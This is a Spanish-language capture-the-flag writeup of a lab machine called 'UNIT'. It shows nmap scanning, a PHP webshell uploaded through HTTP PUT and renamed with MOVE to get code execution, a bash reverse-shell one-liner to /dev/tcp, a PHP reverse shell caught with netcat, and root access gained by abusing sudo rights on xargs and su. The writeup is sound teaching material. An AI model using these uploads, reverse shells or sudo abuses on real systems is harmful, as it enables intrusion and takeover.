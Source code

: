 ```yaml
---
title: "[ES] Writeup de la maquina UNIT"
date: 2025-01-29T00:00:00+00:00
tags: ["hacking","spanish","cybersec","classnotes","writeups"]
author: "XoanOuteiro"
showToc: true
TocOpen: false
draft: false
description: "Writeup de la maquina UNIT"
---
```


>Resolucion: Se trata de una maquina basada en una vulnerabilidad de RFI a RCE PHP mediante los metodos PUT y MOVE de HTTP

---

Iniciamos con un ping sweep para descubrir la maquina.

``` java
sudo nmap -sn 192.168.56.0/24
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-28 19:33 CET
Nmap scan report for 192.168.56.1
Host is up (0.00028s latency).
MAC Address: 0A:00:27:00:00:00 (Unknown)
Nmap scan report for 192.168.56.10
Host is up (0.00031s latency).
MAC Address: 08:00:27:A4:04:70 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.102
Host is up (0.00079s latency).
MAC Address: 08:00:27:7B:8B:9E (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.104
Host is up (0.00079s latency).
MAC Address: 08:00:27:6B:C7:57 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.100
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 2.08 seconds
```

Realizamos un ping por visibilidad:

``` java
ping -c 1 192.168.56.104
PING 192.168.56.104 (192.168.56.104) 56(84) bytes of data.
64 bytes from 192.168.56.104: icmp_seq=1 ttl=64 time=0.560 ms

--- 192.168.56.104 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.560/0.560/0.560/0.000 ms
```

El ttl de 64 sugiere que se trata de un sistema Linux, lancemos una enumeracion nmap completa:

``` bash
sudo nmap -sS -sC -sV -O -p- -T5 192.168.56.104 -oN nmap.txt
```

La salida:

``` java
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-28 19:36 CET
Nmap scan report for 192.168.56.104
Host is up (0.00070s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 a9:a8:52:f3:cd:ec:0d:5b:5f:f3:af:5b:3c:db:76:b6 (ECDSA)
|_  256 73:f5:8e:44:0c:b9:0a:e0:e7:31:0c:04:ac:7e:ff:fd (ED25519)
80/tcp   open  http    nginx 1.22.1
|_http-title: 415 Unsupported Media Type
|_http-server-header: nginx/1.22.1
8080/tcp open  http    nginx 1.22.1
| http-methods: 
|_  Potentially risky methods: PUT MOVE
|_http-server-header: nginx/1.22.1
|_http-title: 415 Unsupported Media Type
MAC Address: 08:00:27:6B:C7:57 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)
Device type: general purpose|router
Running: Linux 4.X|5.X, MikroTik RouterOS 7.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:mikrotik:routeros:7 cpe:/o:linux:linux_kernel:5.6.3
OS details: Linux 4.15 - 5.19, OpenWrt 21.02 (Linux 5.4), MikroTik RouterOS 7.2 - 7.5 (Linux 5.6.3)
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.28 seconds
                                                               
```

Tenemos dos servicios http y uno de ssh. Podemos tambien ver que el servicio HTTP de 8080 permite PUT y MOVE. Podemos iniciar nuestro proceso de explotacion aqui, enumeremos este servicio.

---

Tenemos la info de que se trata de nginx 1.22.1, que no parece ser vulnerable a nada segun searchsploit.

Intento averiguar mas detalles, pero whatweb solo devuelve esto:

``` java
whatweb 192.168.56.104:8080
http://192.168.56.104:8080 [415 Unsupported Media Type] Country[RESERVED][ZZ], HTTPServer[nginx/1.22.1], IP[192.168.56.104], Title[415 Unsupported Media Type], nginx[1.22.1]

```

Este codigo de error corresponde a una respuesta a una llamada de PUT, esto seguramente se deba a que no permita POST o GET y por lo tanto interprete nuestras peticiones como intentos de subida de archivos, probemos a subir un fichero .txt.

Creamos un archivo y lo subimos mediante PUT con el comando:

``` bash
curl -X PUT -T "file.txt" "http://192.168.56.104:8080/file.txt"
```

Y podemos verlo desde el navegador.

Quizas podriamos subir un archivo PHP, de momento sabemos que podemos subir archivos TXT.

Utilizando la simple-backdoor de /usr/share/webshells no podemos:

``` bash
cp /usr/share/webshells/simple-backdoor.php back.php
curl -X PUT -T "back.php" "http://192.168.56.104:8080/back.php"
<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx/1.22.1</center>
</body>
</html>
```

Pero podemos subirlo en txt.
Logro subirlo con:

``` bash
mv back.php back.txt
curl -X PUT -T "back.txt" "http://192.168.56.104:8080/back.txt"
```

Pero el contenido TXT no se renderiza, pero quizas pueda utilizar move para cambiarlo a php:

``` bash
curl -X MOVE -H "Destination: http://192.168.56.104:8080/back.php" http://192.168.56.104:8080/back.txt
   
```

Y funciona, tenemos RCE desde el parametro cmd, podemos realizar una peticion a:

```
http://192.168.56.104:8080/back.php?cmd=ls;whoami;
```

Y obtenemos:

```
back.php
file.txt
index.html
www-data
```

Pero esto no nos sirve, no fui capaz de estabecer una shell con la URL:

```
http://192.168.56.104:8080/back.php?cmd=bash -i >& /dev/tcp/192.168.56.100/4444 0>&1
```

Asi que probare a subir una reverse shell de PHP directamente, siguiendo la secuencia de subirlo como TXT y utilizar move para transformarlo en un archivo php.

Y con la reverse shell de PHP clasica estamos dentro:

```
 nc -nlvp 4444
listening on [any] 4444 ...
connect to [192.168.56.100] from (UNKNOWN) [192.168.56.104] 58644
Linux unit 6.1.0-13-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.55-1 (2023-09-29) x86_64 GNU/Linux
 19:59:43 up 27 min,  0 user,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Ahora en cuanto a la escalada de privilegios, veamos:

``` bash
$ sudo -l
Matching Defaults entries for www-data on unit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on unit:
    (jones) NOPASSWD: /usr/bin/xargs
```

Podemos utilizar xargs con los permisos de un tal usuario jones, segun gtfobins tenemos permisos de escritura, con lo que sacamos la flag de usuario:

``` bash
$ sudo -u jones xargs -a "/home/jones/user.txt" -0
[censurado para evitar trampas]
```

Pero tambien podemos abusar de los permisos para obtener una sh con jones:

``` bash
$ sudo -u jones xargs -a /dev/null sh
whoami
jones
```

Ahora veamos los permisos de jones:

``` bash
sudo -l
Matching Defaults entries for jones on unit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User jones may run the following commands on unit:
    (root) NOPASSWD: /usr/bin/su

sudo su
whoami
root
```

Simplemente no permite cambiar a sesion de root

Y ya esta, somos root.

Flag de root:

``` bash
cat /root/root.txt
[censurado para evitar trampas]
```



